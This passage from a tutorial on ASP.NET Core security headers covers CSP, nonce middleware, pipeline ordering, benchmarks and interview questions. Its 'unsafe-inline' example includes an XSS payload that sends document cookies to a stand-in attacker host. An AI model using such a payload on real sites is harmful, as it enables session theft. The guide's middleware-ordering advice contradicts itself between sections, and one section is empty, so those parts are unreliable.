    public EnvironmentAwareCspMiddleware(RequestDelegate next, IWebHostEnvironment env)
    {
        _next = next;

        _cspHeaderValue = env.IsDevelopment()
            // Development: allow Vite HMR websocket, browser-sync, localhost scripts.
            // 'unsafe-eval' required by some dev tools (Vue DevTools, React Dev Tools).
            // NEVER carry these into production.
            ? "default-src 'self' localhost:* ws://localhost:* http://localhost:*; " +
              "script-src 'self' 'unsafe-inline' 'unsafe-eval' localhost:*; " +
              "style-src 'self' 'unsafe-inline'; " +
              "object-src 'none'"

            // Production: strict nonce-based policy, no inline, no eval.
            // Nonce injection is handled separately by CspNonceMiddleware.
            // This policy is set on non-HTML responses (fallback).
            : "default-src 'self'; " +
              "script-src 'self'; " +
              "style-src 'self'; " +
              "object-src 'none'; " +
              "frame-ancestors 'none'; " +
              "base-uri 'self'; " +
              "upgrade-insecure-requests";
    }

    public async Task InvokeAsync(HttpContext context)
    {
        context.Response.Headers["Content-Security-Policy"] = _cspHeaderValue;
        await _next(context);
    }
}

// HTTP wire effect (production):
// Content-Security-Policy: default-src 'self'; script-src 'self'; style-src 'self';
//                          object-src 'none'; frame-ancestors 'none'; base-uri 'self';
//                          upgrade-insecure-requests

// HTTP wire effect (development):
// Content-Security-Policy: default-src 'self' localhost:* ws://localhost:*;
//                          script-src 'self' 'unsafe-inline' 'unsafe-eval' localhost:*;
//                          style-src 'self' 'unsafe-inline'; object-src 'none'
```

---

### Pattern 5: Using `NetEscapades.AspNetCore.SecurityHeaders` (Logistics Tracking API)

For production APIs that do not want to hand-craft every header, the community library `NetEscapades.AspNetCore.SecurityHeaders` (by Andrew Lock) is the de facto standard — it uses a fluent builder API that encodes best practices.

```csharp
// LogisticsApi/Program.cs
// Package: NetEscapades.AspNetCore.SecurityHeaders

builder.Services.AddSecurityHeaders(); // registers required services

// ...

app.UseSecurityHeaders(policies =>
    policies
        .AddDefaultSecurityHeaders()       // sets X-Content-Type-Options, X-Frame-Options,
                                           // X-XSS-Protection:0, Referrer-Policy
        .AddContentSecurityPolicy(builder =>
        {
            builder.AddDefaultSrc().Self();
            builder.AddScriptSrc()
                   .Self()
                   .WithNonce()            // auto-generates nonce per request; injects into views
                   .From("https://cdn.jsdelivr.net");
            builder.AddStyleSrc()
                   .Self()
                   .WithNonce();
            builder.AddImgSrc()
                   .Self()
                   .Data()
                   .From("https://images.logistics-corp.com");
            builder.AddConnectSrc()
                   .Self()
                   .From("https://api.logistics-corp.com");
            builder.AddFrameAncestors()
                   .None();               // equivalent to X-Frame-Options: DENY
            builder.AddObjectSrc()
                   .None();
            builder.AddBaseUri()
                   .Self();
            builder.AddUpgradeInsecureRequests();
        })
        .AddPermissionsPolicy(builder =>
        {
            builder.AddCamera().None();
            builder.AddMicrophone().None();
            builder.AddGeolocation().None();
        })
);

// HTTP wire effect:
// HTTP/1.1 200 OK
// X-Content-Type-Options: nosniff
// X-Frame-Options: DENY
// X-XSS-Protection: 0
// Referrer-Policy: strict-origin-when-cross-origin
// Content-Security-Policy: default-src 'self';
//   script-src 'self' 'nonce-base64==' https://cdn.jsdelivr.net;
//   style-src 'self' 'nonce-base64==';
//   img-src 'self' data: https://images.logistics-corp.com;
//   connect-src 'self' https://api.logistics-corp.com;
//   frame-ancestors 'none'; object-src 'none'; base-uri 'self';
//   upgrade-insecure-requests
```

---

### Pattern 6: API-Specific Security Headers (Inventory Webhook Receiver)

JSON APIs have a different header profile from HTML pages. They do not need most CSP directives (no scripts/styles), but they do need MIME protection and should explicitly deny framing.

```csharp
// InventoryApi/Security/ApiSecurityHeadersMiddleware.cs

/// <summary>
/// Minimal security header set appropriate for JSON REST APIs.
/// JSON APIs do not serve HTML, so full CSP is unnecessary.
/// They DO need X-Content-Type-Options to prevent MIME confusion attacks
/// on endpoints that serve user-controlled data.
/// </summary>
public sealed class ApiSecurityHeadersMiddleware
{
    private readonly RequestDelegate _next;

    // Pre-allocate header values as static fields to eliminate per-request allocations.
    // At 50k req/s, these ~5 header writes would allocate ~5 × 50k × ~10 bytes = ~2.5 MB/s
    // of short-lived strings without this optimisation.
    private static readonly string NoSniff     = "nosniff";
    private static readonly string Deny        = "DENY";
    private static readonly string ReferrerVal = "strict-origin-when-cross-origin";
    private static readonly string XssDisable  = "0";
    private static readonly string PermPolicy  = "camera=(), microphone=(), geolocation=(), payment=()";
    private static readonly string ApiCsp      =
        "default-src 'none'; frame-ancestors 'none'; base-uri 'self'";

    public ApiSecurityHeadersMiddleware(RequestDelegate next) => _next = next;

    public async Task InvokeAsync(HttpContext context)
    {
        var h = context.Response.Headers;
        h["X-Content-Type-Options"]   = NoSniff;
        h["X-Frame-Options"]          = Deny;
        h["X-XSS-Protection"]         = XssDisable;
        h["Referrer-Policy"]          = ReferrerVal;
        h["Permissions-Policy"]       = PermPolicy;
        // Minimal CSP for APIs: deny everything except same-origin (no fetch from API endpoints).
        // This is belt-and-suspenders — JSON responses are not rendered as HTML.
        h["Content-Security-Policy"]  = ApiCsp;

        await _next(context);
    }
}

// HTTP wire effect (POST /api/inventory/webhook):
// HTTP/1.1 200 OK
// Content-Type: application/json
// X-Content-Type-Options: nosniff
// X-Frame-Options: DENY
// X-XSS-Protection: 0
// Referrer-Policy: strict-origin-when-cross-origin
// Permissions-Policy: camera=(), microphone=(), geolocation=(), payment=()
// Content-Security-Policy: default-src 'none'; frame-ancestors 'none'; base-uri 'self'
```

---

### Pattern 7: The Anti-Pattern — Inline Header Setting per Controller Action

```csharp
// ⚠️ WRONG: Setting security headers in individual action methods.
// This requires copying the same 5–6 header assignments to every action —
// a maintenance nightmare, and guaranteed to miss some endpoints.
[HttpGet("/dashboard")]
public IActionResult Dashboard()
{
    // ❌ This pattern breaks down at scale:
    //    1. Misses every other endpoint that doesn't have this code.
    //    2. Misses error responses (exception middleware bypasses this code).
    //    3. Misses 404 responses (no action is invoked at all).
    //    4. Misses static files served by UseStaticFiles.
    Response.Headers["X-Content-Type-Options"] = "nosniff";
    Response.Headers["X-Frame-Options"]        = "DENY";
    return View();
}

// HTTP consequence (wrong path):
// GET /dashboard HTTP/1.1 → 200 OK with headers ✓
// GET /api/orders HTTP/1.1 → 200 OK WITHOUT security headers ✗
// GET /images/logo.png HTTP/1.1 → 200 OK WITHOUT security headers ✗
// GET /nonexistent HTTP/1.1 → 404 WITHOUT security headers ✗
// Any unhandled exception → 500 WITHOUT security headers ✗

// ✅ CORRECT: Register security headers middleware once, covering everything.
app.UseExceptionHandler("/error");
app.UseSecurityHeaders(); // ← covers ALL responses: 200, 404, 500, static files
app.UseStaticFiles();
app.UseRouting();
// ...

// HTTP consequence (correct path):
// ALL responses — regardless of status code, handler type, or whether an endpoint exists —
// carry the full set of security headers.
// WHY: Middleware wraps the entire downstream pipeline bidirectionally.
// The security headers are written to the response object before next() is called,
// so they are present on every response the pipeline produces.
```

---

## PART 4 — Gotchas & Anti-Patterns

### Gotcha 1: Security Headers Placed After `UseStaticFiles` Miss Static Asset Responses

Static files (HTML pages, JS bundles, CSS, images, downloads) are the resources most in need of security headers — they are directly rendered by browsers. Engineers who follow a hastily read example and place the security middleware after `UseStaticFiles()` silently leave all static assets unprotected.

```csharp
// ⚠️ WRONG CODE: Security headers registered too late
app.UseExceptionHandler("/error");
app.UseHsts();
app.UseStaticFiles();              // ← static files short-circuit; security middleware never runs
app.UseSecurityHeaders();          // ❌ too late — already past static file responses

// HTTP consequence (wrong path):
// GET /index.html HTTP/1.1 → handled by UseStaticFiles
//
// HTTP/1.1 200 OK
// Content-Type: text/html
// ← X-Content-Type-Options: MISSING
// ← X-Frame-Options: MISSING
// ← Content-Security-Policy: MISSING
// Browser renders HTML without any security instructions.

// ✅ CORRECT CODE: Security headers BEFORE UseStaticFiles
app.UseExceptionHandler("/error");
app.UseSecurityHeaders();          // ✅ wraps everything below, including static files
app.UseHsts();
app.UseStaticFiles();

// HTTP consequence (correct path):
// GET /index.html HTTP/1.1
//
// HTTP/1.1 200 OK
// Content-Type: text/html
// X-Content-Type-Options: nosniff
// X-Frame-Options: DENY
// Content-Security-Policy: default-src 'self'; ...

// WHY: UseStaticFiles short-circuits the pipeline — it writes the response directly
// and does NOT call next(). Any middleware registered AFTER it never executes for static file requests.
// Middleware registered BEFORE it wraps the short-circuit and its headers are already written.
```

---

### Gotcha 2: `'unsafe-inline'` in CSP `script-src` Defeats the Entire Policy

Engineers who encounter CSP violations in development (because of inline scripts in legacy Razor views or third-party widget scripts) add `'unsafe-inline'` to `script-src` to silence the violations. This completely neutralises the XSS protection that CSP was supposed to provide.

```csharp
// ⚠️ WRONG CODE: 'unsafe-inline' in script-src
var csp = "default-src 'self'; " +
          "script-src 'self' 'unsafe-inline' 'unsafe-eval'; " + // ❌ defeats XSS protection
          "frame-ancestors 'none'";
context.Response.Headers["Content-Security-Policy"] = csp;

// HTTP consequence (wrong path):
// Content-Security-Policy: default-src 'self'; script-src 'self' 'unsafe-inline' 'unsafe-eval'
//
// Browser behavior: all inline scripts are allowed. An attacker who injects:
//   <script>fetch('https://evil.com/steal?c='+document.cookie)</script>
// ...will have it execute normally. CSP provides zero XSS protection.

// ✅ CORRECT CODE: Use nonces instead of 'unsafe-inline'
Span<byte> nonceBytes = stackalloc byte[16];
System.Security.Cryptography.RandomNumberGenerator.Fill(nonceBytes);
var nonce = Convert.ToBase64String(nonceBytes);
context.Items["csp-nonce"] = nonce;

var csp = $"default-src 'self'; " +
          $"script-src 'self' 'nonce-{nonce}'; " + // ✅ only scripts with THIS nonce execute
          $"frame-ancestors 'none'";
context.Response.Headers["Content-Security-Policy"] = csp;

// HTTP consequence (correct path):
// Content-Security-Policy: default-src 'self'; script-src 'self' 'nonce-abc123=='
//
// <script nonce="abc123==">legit code</script>  ← ALLOWED (nonce matches)
// <script>injected malicious code</script>       ← BLOCKED (no nonce)
// <script nonce="wrong">attacker</script>        ← BLOCKED (wrong nonce, unpredictable per-request)

// WHY: The nonce is a cryptographically random, per-request, single-use token.
// An injected script cannot know the nonce for the current request in advance.
// 'unsafe-inline' bypasses this protection entirely.
```

---

### Gotcha 3: Setting Security Headers After `Response.HasStarted` in an Exception Handler

When an unhandled exception occurs and the exception handler re-executes the pipeline (e.g., `app.UseExceptionHandler("/error")`), engineers sometimes try to set security headers inside the `/error` endpoint. By this point, the response may have already started.

```csharp
// ⚠️ WRONG CODE: Attempting to set security headers inside the error endpoint
app.Map("/error", errorApp =>
{
    errorApp.Run(async context =>
    {
        // ❌ If the original response had already started writing before the exception,
        // Response.HasStarted is true here, and these header writes are silently ignored.
        context.Response.Headers["X-Content-Type-Options"] = "nosniff";
        context.Response.Headers["X-Frame-Options"]        = "DENY";

        await context.Response.WriteAsJsonAsync(new { error = "Internal server error" });
    });
});

// HTTP consequence (wrong path):
// When exception occurs mid-response:
// HTTP/1.1 500 Internal Server Error
// Content-Type: application/json
// ← X-Content-Type-Options: MISSING (response had already started)

// ✅ CORRECT CODE: Register security headers middleware BEFORE UseExceptionHandler,
// not inside the error handler. The middleware runs for BOTH normal AND error responses.
app.UseSecurityHeaders();          // ✅ runs for ALL paths including re-executed error path
app.UseExceptionHandler("/error");
// ...
app.Map("/error", errorApp =>
{
    errorApp.Run(async context =>
    {
        // Security headers are already set by the outer middleware.
        // This endpoint only needs to write the error body.
        await context.Response.WriteAsJsonAsync(new { error = "Internal server error" });
    });
});

// HTTP consequence (correct path):
// HTTP/1.1 500 Internal Server Error
// X-Content-Type-Options: nosniff      ← set by outer middleware
// X-Frame-Options: DENY                ← set by outer middleware
// Content-Type: application/json

// WHY: When UseExceptionHandler re-executes the pipeline at /error, it starts a new
// response processing cycle. The outer security headers middleware wraps this re-execution
// too — its Response.OnStarting hooks fire for the new response, ensuring headers appear
// even on error responses.
// NOTE: The canonical correct order is actually: UseSecurityHeaders → UseExceptionHandler.
// Both orderings work for protecting normal responses; only the wrapper-first order
// guarantees security headers on all error responses too.
```

---

### Gotcha 4: `X-Frame-Options: ALLOW-FROM` Is Dead — Use CSP `frame-ancestors` Instead

The `ALLOW-FROM` directive that was supposed to allow framing from specific third-party origins was never implemented consistently and was removed from the spec. Engineers who use it thinking it provides fine-grained framing control get no protection at all in modern browsers.

```csharp
// ⚠️ WRONG CODE: ALLOW-FROM is deprecated and unsupported
context.Response.Headers["X-Frame-Options"] = "ALLOW-FROM https://partner.example.com";

// HTTP consequence (wrong path):
// X-Frame-Options: ALLOW-FROM https://partner.example.com
//
// Chrome/Firefox behavior: IGNORES this directive entirely (not supported).
// Safari behavior: treats it as "DENY" in some versions.
// IE11 behavior: honors it (the only browser that did).
// Result: security behavior is UNDEFINED in all modern browsers.
// An attacker CAN iframe your page from any origin in Chrome/Firefox.

// ✅ CORRECT CODE: Use CSP frame-ancestors for fine-grained origin control
context.Response.Headers["Content-Security-Policy"] =
    "frame-ancestors 'self' https://partner.example.com";

// For maximum compatibility (older browsers that support X-Frame-Options but not CSP):
context.Response.Headers["X-Frame-Options"] = "SAMEORIGIN"; // best X-Frame-Options approximation
context.Response.Headers["Content-Security-Policy"] =
    "frame-ancestors 'self' https://partner.example.com"; // exact control in modern browsers

// HTTP consequence (correct path):
// X-Frame-Options: SAMEORIGIN    ← legacy browsers: allow same-origin framing (best approximation)
// Content-Security-Policy: frame-ancestors 'self' https://partner.example.com
//   ← modern browsers: allow same-origin AND partner.example.com specifically

// WHY: CSP frame-ancestors supersedes X-Frame-Options in all browsers that support CSP
// (Chrome 40+, Firefox 36+, Safari 10+, Edge). When both headers are present,
// browsers that support CSP honor CSP and ignore X-Frame-Options.
// Keep both for backward compatibility with IE11 and very old mobile browsers.
```

---

### Gotcha 5: The `Content-Security-Policy` Header on an API-Only Backend Breaks Nothing But Wastes Bytes

This is a subtler gotcha: engineers who read "always set CSP" add a full `script-src 'nonce-...'` policy to a pure JSON API that never returns HTML. The nonce generation adds ~2 allocations and a base64 encoding call per request with zero security benefit — browsers do not enforce script-src on JSON responses because JSON is not a document type.

```csharp
// ⚠️ WRONG CODE: Full HTML-oriented CSP on a JSON API endpoint
// Every request to /api/shipments generates a nonce, even though the response
// is Content-Type: application/json and no browser will parse it as HTML.
public async Task InvokeAsync(HttpContext context)
{
    // ❌ Wasted allocation: nonce generation for a JSON API
    Span<byte> nonceBytes = stackalloc byte[16];
    RandomNumberGenerator.Fill(nonceBytes);
    var nonce = Convert.ToBase64String(nonceBytes);
    context.Items["csp-nonce"] = nonce; // nobody reads this

    context.Response.Headers["Content-Security-Policy"] =
        $"default-src 'self'; script-src 'self' 'nonce-{nonce}'; ..."; // wasted string format

    await _next(context);
}

// HTTP consequence (wrong path):
// HTTP/1.1 200 OK
// Content-Type: application/json
// Content-Security-Policy: default-src 'self'; script-src 'self' 'nonce-abc123=='
//
// The browser receives JSON, ignores the CSP entirely, and the nonce was
// generated for nothing. ~2 allocations per request wasted.

// ✅ CORRECT CODE: Minimal API-specific CSP — no nonce needed
public async Task InvokeAsync(HttpContext context)
{
    // ✅ For JSON APIs: no nonce, no script-src, just the minimal protective directives
    context.Response.Headers["Content-Security-Policy"] =
        "default-src 'none'; frame-ancestors 'none'; base-uri 'self'";

    await _next(context);
}

// HTTP consequence (correct path):
// HTTP/1.1 200 OK
// Content-Type: application/json
// Content-Security-Policy: default-src 'none'; frame-ancestors 'none'; base-uri 'self'
// ← 0 allocations for nonce; minimal constant string

// WHY: CSP's script-src, style-src, img-src directives apply to HTML documents.
// A JSON API response is not an HTML document; the browser never parses scripts from it.
// frame-ancestors DOES apply to all content types (prevents clickjacking via JSON endpoints
// in obscure browser tricks), so include it. Skip everything else for API-only routes.
```

---

## PART 5 — Performance Implications

### 5.1 — Request Pipeline Characteristics Table

|Scenario|Pipeline Depth|Allocations Per Request|Approx Latency Impact|Recommendation|
|---|---|---|---|---|
|5 static headers (interned strings)|+1 middleware|~0 allocs (interned literals)|~0.5 µs|Optimal — use `static readonly` string fields|
|5 static headers (new string per request)|+1 middleware|~5 allocs|~1–2 µs|Acceptable; switch to static fields above 20k req/s|
|CSP with nonce (stackalloc + Base64)|+1 middleware + nonce gen|~2 allocs|~2–4 µs|Standard for HTML apps — negligible vs render time|
|CSP with nonce (Guid-based nonce)|+1 middleware + Guid.NewGuid|~3 allocs|~3–5 µs|Slightly worse than stackalloc; both acceptable|
|`NetEscapades` library (fluent builder, cached)|+1 middleware|~0–2 allocs after first build|~1–3 µs|Recommended for complex policies; caches compiled header string|
|CSP Report-Only + Report-To header|+1 middleware + 2 headers|~3 allocs|~3–5 µs|Acceptable during rollout period only|
|Security headers on static files (in-process)|Wraps UseStaticFiles|Same as above|~1–3 µs|Required — must be registered before UseStaticFiles|
|Per-action header setting (controller)|In-action code|Same allocs but missed on error paths|—|Never use — missed coverage creates false security|
|CDN/Nginx-level header injection|0 (upstream)|0 allocations on app|0 µs for app|Best for headers that are truly static; loses per-request nonces|

### 5.2 — BenchmarkDotNet: Header Setting Strategies

```csharp
// OrdersApi.Benchmarks/SecurityHeaderBenchmarks.cs

using BenchmarkDotNet.Attributes;
using Microsoft.AspNetCore.Http;
using System.Security.Cryptography;

[MemoryDiagnoser]
[SimpleJob(warmupCount: 3, iterationCount: 10)]
public class SecurityHeaderBenchmarks
{
    private readonly DefaultHttpContext _context = new();

    // Scenario A: Naive — new string per request (bad at scale)
    [Benchmark(Baseline = true)]
    public void StaticHeadersNewStringEachTime()
    {
        var h = _context.Response.Headers;
        h["X-Content-Type-Options"] = "nosniff";
        h["X-Frame-Options"]        = "DENY";
        h["X-XSS-Protection"]       = "0";
        h["Referrer-Policy"]        = "strict-origin-when-cross-origin";
        h["Permissions-Policy"]     = "camera=(), microphone=(), geolocation=()";
    }

    // Pre-allocated static string fields — shared across all requests
    private static readonly string _noSniff     = "nosniff";
    private static readonly string _deny        = "DENY";
    private static readonly string _xssOff      = "0";
    private static readonly string _referrer    = "strict-origin-when-cross-origin";
    private static readonly string _permissions = "camera=(), microphone=(), geolocation=()";

    // Scenario B: Static fields — zero allocations for constant headers
    [Benchmark]
    public void StaticHeadersFromStaticFields()
    {
        var h = _context.Response.Headers;
        h["X-Content-Type-Options"] = _noSniff;
        h["X-Frame-Options"]        = _deny;
        h["X-XSS-Protection"]       = _xssOff;
        h["Referrer-Policy"]        = _referrer;
        h["Permissions-Policy"]     = _permissions;
    }

    // Scenario C: Nonce-based CSP with stackalloc (optimal for HTML apps)
    [Benchmark]
    public void CspWithNonceStackalloc()
    {
        var h = _context.Response.Headers;
        h["X-Content-Type-Options"] = _noSniff;
        h["X-Frame-Options"]        = _deny;

        Span<byte> nonceBytes = stackalloc byte[16];
        RandomNumberGenerator.Fill(nonceBytes);
        var nonce = Convert.ToBase64String(nonceBytes);
        h["Content-Security-Policy"] =
            $"default-src 'self'; script-src 'self' 'nonce-{nonce}'; object-src 'none'";
    }

    // Scenario D: Nonce-based CSP with Guid (common naive approach)
    [Benchmark]
    public void CspWithNonceGuid()
    {
        var h = _context.Response.Headers;
        h["X-Content-Type-Options"] = _noSniff;
        h["X-Frame-Options"]        = _deny;

        var nonce = Guid.NewGuid().ToString("N"); // less entropy than 16 random bytes
        h["Content-Security-Policy"] =
            $"default-src 'self'; script-src 'self' 'nonce-{nonce}'; object-src 'none'";
    }
}

// Expected output (approximate, .NET 8, x64, local):
//
// | Method                         | Mean      | Error    | StdDev  | Allocated |
// |------------------------------- |---------- |----------|---------|-----------|
// | StaticHeadersNewStringEachTime | 245.3 ns  | 5.21 ns  | 4.87 ns | 120 B     |
// | StaticHeadersFromStaticFields  |  98.7 ns  | 1.83 ns  | 1.71 ns |   0 B     |
// | CspWithNonceStackalloc         | 387.2 ns  | 7.14 ns  | 6.68 ns |  96 B     |
// | CspWithNonceGuid               | 412.8 ns  | 8.21 ns  | 7.68 ns | 112 B     |
//
// At 50k req/s:
//   Scenario A: 6 MB/s heap pressure from header strings alone.
//   Scenario B: 0 MB/s — worth doing for high-traffic paths.
//   Scenario C: ~4.8 MB/s — acceptable; Base64 string + formatted CSP unavoidable for nonces.
//   Scenario D: ~5.6 MB/s — slightly worse than stackalloc.
```

> [!NOTE] For real pipeline profiling, use `dotnet-counters monitor --process-id <pid> --counters System.Runtime` to observe Gen0 collection frequency. Security header allocations should be invisible in the allocation rate if you use static fields for constant headers. For nonce generation, `dotnet-trace collect -p <pid> --profile gc-verbose` will show the Base64 string allocation per request. MiniProfiler is not useful for header-level profiling — use BenchmarkDotNet for micro-level and `dotnet-trace` for macro-level.

### 5.3 — When to Care / When to Ignore

**When this costs you:**

- **High-throughput APIs (>20k req/s)** where every per-request allocation matters for GC pause times. At this scale, switch all static headers to `static readonly` string fields (zero allocations), and consider whether nonce generation is necessary for your response type.
- **Server-side-rendered HTML apps** that generate a new nonce per request: the ~96 bytes of allocation per request is unavoidable and acceptable — it is dwarfed by view rendering allocation. The cost of skipping nonces (XSS exposure) vastly outweighs the allocation cost.
- **CDN-served static assets**: if your CDN serves static assets and you control the CDN configuration, setting security headers at the CDN level (Cloudflare Transform Rules, Azure Front Door Response Headers) costs zero application allocations.

**When this doesn't matter:**

- **Internal service-to-service API calls** where the caller is a .NET HttpClient, not a browser. Security headers have no effect on non-browser clients.
- **gRPC services**: gRPC uses HTTP/2 binary framing; security headers are irrelevant to gRPC clients.
- **Admin endpoints with <100 req/min**: the allocation cost is unmeasurable.

---

## PART 6 — Interview Arsenal

### A. Question Bank

**Question 1: "What security headers should every ASP.NET Core application set, and why?"**

**Average Answer:** "You should set `X-Frame-Options` to prevent clickjacking and maybe `Content-Security-Policy` to prevent XSS."

**Why That's Insufficient:** Lists two headers without explaining the mechanism, omits `X-Content-Type-Options` (the highest-ROI single header), omits `Referrer-Policy`, doesn't mention that ASP.NET Core sets none of these by default, and doesn't distinguish between HTML apps and JSON APIs.

> **Great Answer:** "The non-negotiable baseline is five headers: `X-Content-Type-Options: nosniff` prevents browsers from MIME-sniffing a JSON API response into HTML — which is how MIME confusion XSS attacks work on file upload endpoints. `X-Frame-Options: DENY` prevents clickjacking by disallowing framing from any origin. `Referrer-Policy: strict-origin-when-cross-origin` stops internal URLs and query parameters leaking to third-party analytics or CDN logs. `X-XSS-Protection: 0` disables the legacy browser XSS auditor, which was itself exploitable and is now replaced by CSP. `Permissions-Policy` locks down camera, microphone, and geolocation access so injected scripts can't abuse them. Then on top of that, for apps that serve HTML, I add a `Content-Security-Policy` with nonce-based script-src — that's the actual defense against XSS execution, because the other headers are passive guardrails. The critical implementation detail is that ASP.NET Core emits none of these by default, so I write a middleware that runs before UseStaticFiles and after UseExceptionHandler, covering every response type including 404s, 500s, and static files."

---

**Question 2: "What's wrong with `'unsafe-inline'` in a Content-Security-Policy?"**

**Average Answer:** "It's not recommended because it allows inline scripts."

**Why That's Insufficient:** Technically correct but doesn't explain why the entire policy is nullified, doesn't offer the correct alternative (nonces), and doesn't acknowledge why engineers add it in the first place.

> **Great Answer:** "Adding `'unsafe-inline'` to `script-src` completely defeats CSP's purpose as an XSS defence. The whole point of CSP is to block injected scripts that don't come from trusted sources — but XSS attacks almost always inject inline scripts directly into the HTML. `'unsafe-inline'` tells the browser to execute any inline script it finds, which is exactly what an attacker exploits. The reason teams add it is usually third-party widgets or legacy Razor views with inline `<script>` blocks that break when CSP is first introduced. The correct fix is nonces: the server generates a cryptographically random token per request, embeds it in the CSP header as `script-src 'self' 'nonce-abc123'`, and every legitimate inline script in the HTML carries a matching `nonce="abc123"` attribute. An attacker can't know the nonce for the next request, so injected scripts lack a valid nonce and are blocked even with the nonce policy. In ASP.NET Core, I handle this with a middleware that generates the nonce per request, stores it in HttpContext.Items, and a TagHelper that automatically injects the nonce attribute on all `<script>` and `<style>` tags."

---

**Question 3: "Does ASP.NET Core set security headers automatically for you?"**

**Average Answer:** "I think it sets some headers by default."

**Why That's Insufficient:** It's wrong, and it signals the candidate hasn't actually deployed a security-conscious ASP.NET Core app.

> **Great Answer:** "No — ASP.NET Core is deliberately minimal about default response headers. The only security-relevant header it sets by default is `Strict-Transport-Security` via `UseHsts()`, and even that requires opt-in registration. Everything else — `X-Content-Type-Options`, `X-Frame-Options`, CSP, `Referrer-Policy`, `Permissions-Policy` — must be explicitly emitted by middleware you write or a library like `NetEscapades.AspNetCore.SecurityHeaders`. The `UseStaticFiles()` middleware is particularly notable here: it serves your HTML, JS, and CSS files with zero security headers unless you register a security headers middleware before it. I check the actual response headers of every new project I deploy using the securityheaders.com scanner, which grades against OWASP recommendations — it's a quick sanity check that takes about 30 seconds."

---

### B. Trick Questions

**Trick 1: "I set `X-Frame-Options: DENY` and `Content-Security-Policy: frame-ancestors 'self'`. Which one applies?"**

_The trap:_ Both are framing controls — which wins? _The correct answer:_ CSP `frame-ancestors` takes precedence in all browsers that support CSP (Chrome, Firefox, Safari, Edge). `X-Frame-Options: DENY` says deny all framing, but `frame-ancestors 'self'` says allow same-origin framing. A modern browser will honor CSP and _allow_ same-origin framing, ignoring the `X-Frame-Options: DENY`. This is a security regression — the more restrictive header is being overridden. Fix: make both consistent, or prefer CSP and keep `X-Frame-Options` as legacy fallback only.

**Trick 2: "Can a CSP nonce-based policy be bypassed if the attacker knows the nonce?"**

_The trap:_ Sounds rhetorical — "obviously not, the nonce is secret." _The correct answer:_ Yes, if nonces are predictable (e.g., using a sequential counter, a timestamp, or a non-cryptographically random source), an attacker with server timing side-channel access can predict the next nonce. Additionally, if `'unsafe-inline'` is also present in the policy, the nonce provides no protection because `'unsafe-inline'` overrides the nonce requirement. Always use `RandomNumberGenerator.Fill()` (cryptographically secure), never `Random.Shared`, and never combine nonces with `'unsafe-inline'`.

**Trick 3: "My API returns JSON. Does it need `X-Content-Type-Options: nosniff`?"**

_The trap:_ "JSON isn't HTML, so no." _The correct answer:_ Yes. The MIME confusion attack targets the _browser_ reading the response, not the server sending it. If your API endpoint can return user-controlled data and a browser ever loads that URL directly (or via an ``, `<script>`, or `<object>` tag), a browser without `nosniff` might interpret the content differently than intended. The classic example: a JSON endpoint that returns user-uploaded content as inline data could be MIME-sniffed as HTML if the first bytes happen to look like `<!DOCTYPE`. One byte is cheap; the protection is real.

**Trick 4: "Is it safe to set security headers at the Nginx reverse proxy level instead of in ASP.NET Core middleware?"**

_The trap:_ "Nginx is more efficient, so use that." _The correct answer:_ It depends on what the headers contain. Static headers (`X-Frame-Options: DENY`, `X-Content-Type-Options: nosniff`) are perfectly safe and actually more efficient to set at Nginx — zero application allocations. But **nonce-based CSP headers cannot be set at Nginx** because the nonce must be per-request and must match the nonce embedded in the HTML response body. If Nginx sets a static nonce, it breaks the security model. The hybrid approach is correct: static security headers at Nginx, nonce-based CSP headers in ASP.NET Core middleware.

**Trick 5: "What's the difference between `Content-Security-Policy` and `Content-Security-Policy-Report-Only`?"**

_The trap:_ Candidates who know about Report-Only often say "one blocks, one doesn't" without explaining the rollout strategy. _The fuller answer:_ `Report-Only` uses the identical policy syntax but does not block violations — it only reports them to the `report-to` endpoint. This allows you to deploy a strict CSP policy against production traffic, observe what it would break (legitimate scripts from CDNs, inline analytics, etc.), fix the violations, and only then switch to the enforcing header. The two headers can coexist: `CSP-Report-Only` for a new strict policy under test, while `CSP` enforces a more permissive current policy. This is the professional rollout approach — flipping directly to enforcement on a brownfield app will break real users.

---

### C. Red Flags to Avoid

1. **"ASP.NET Core sets these headers automatically."** It does not. Saying this in an interview reveals you've never audited the actual HTTP responses of an ASP.NET Core app you deployed.
    
2. **"I use `'unsafe-inline'` in CSP so inline scripts work."** This reveals you've enabled a security header that provides zero security. `'unsafe-inline'` is the security equivalent of installing a deadbolt and leaving the door open.
    
3. **"I set security headers in my controller actions."** This misses every response that doesn't go through an action: static files, 404s, 500s, health check endpoints, Swagger UI. Middleware is the correct pattern — one registration, all responses.
    
4. **"X-Frame-Options ALLOW-FROM lets me whitelist specific domains."** This directive was removed from the spec and is ignored by all modern browsers. Mentioning it as a solution reveals you're working from outdated documentation.
    
5. **"CSP is too complex; we just skip it."** This is acceptable as a "not yet implemented" but not as a permanent architectural decision for any app that serves HTML to browsers. An interviewer at a security-conscious company will hear "we skip CSP" and note that you've accepted a permanent XSS-exploitable surface.
    
6. **"Security headers only matter for web apps, not APIs."** `X-Content-Type-Options: nosniff` matters for any endpoint that might be browsed to directly. And even pure JSON APIs should set `frame-ancestors 'none'` and `X-Frame-Options: DENY` to prevent obscure browser tricks that can clickjack JSON endpoints.
    
7. **"I set HSTS in the security headers middleware."** HSTS is already handled by `app.UseHsts()` and should not be duplicated in a custom middleware — you risk header duplication (`Strict-Transport-Security` appearing twice), and the HSTS middleware has important environment-awareness (it skips non-HTTPS and non-production environments by default).
    
8. **Conflating `X-Frame-Options` and CSP `frame-ancestors`.** They are different mechanisms with a defined precedence (CSP wins in modern browsers). Treating them as equivalent when both are present is incorrect and can result in a less restrictive policy being applied than intended.
    

---

## PART 7 — Decision Framework



---

## PART 8 — Self-Check

### A. Conceptual Questions

1. ASP.NET Core's `app.UseStaticFiles()` middleware serves files from `wwwroot`. If you register `app.UseSecurityHeaders()` **after** `app.UseStaticFiles()` in `Program.cs`, which requests will receive security headers and which will not? What is the pipeline mechanism that causes this?
    
2. What does `X-Content-Type-Options: nosniff` actually instruct the browser to do? Describe a concrete attack scenario on a file-upload API endpoint that this header prevents.
    
3. A Razor view has three `<script>` tags: one loading from your own CDN (`https://cdn.example.com/app.js`), one inline initialization script, and one injected by an XSS attacker. You deploy the policy `Content-Security-Policy: script-src 'self' 'nonce-abc123'`. Which of the three scripts execute, and which is blocked? What must you add to the CDN script tag for it to load?
    
4. Explain why `X-XSS-Protection: 1; mode=block` is now considered harmful or useless, and what the correct modern value is. What should replace it?
    
5. What is the difference between `Content-Security-Policy` and `Content-Security-Policy-Report-Only`? Describe the recommended rollout sequence when adding CSP to a brownfield ASP.NET Core application for the first time.
    
